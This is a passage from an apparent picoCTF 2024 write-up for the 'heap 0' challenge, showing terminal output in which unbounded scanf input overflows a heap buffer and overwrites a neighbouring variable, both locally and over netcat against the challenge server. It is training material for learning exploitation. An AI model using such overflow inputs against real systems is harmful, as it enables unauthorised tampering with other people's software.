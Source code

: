 ```bash
zsh: segmentation fault  ./chall
                                                                                                                                                                     
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_0]
└─$ 
```
Success, we managed to overwrite `safe_var`. The segmentation fault error is due to the fact that no `flag.txt` file exists in the directory.

The cause is [the unbounded use of scanf](https://stackoverflow.com/questions/31379442/has-scanf-a-limited-bound-on-the-number-of-bytes-that-the-user-can-input) (`scanf("%s", input_data);`) in the `write_buffer` function.

### Get the flag

Finally, we connect to the site vith netcat and follow the same procedure
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_0]
└─$ nc tethys.picoctf.net 59346

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5c1bede962b0  ->   pico
+-------------+----------------+
[*]   0x5c1bede962d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: aaaaaaaaaabbbbbbbbbbccccccccccdddddddddd

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5c1bede962b0  ->   aaaaaaaaaabbbbbbbbbbccccccccccdddddddddd
+-------------+----------------+
[*]   0x5c1bede962d0  ->   dddddddd
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
```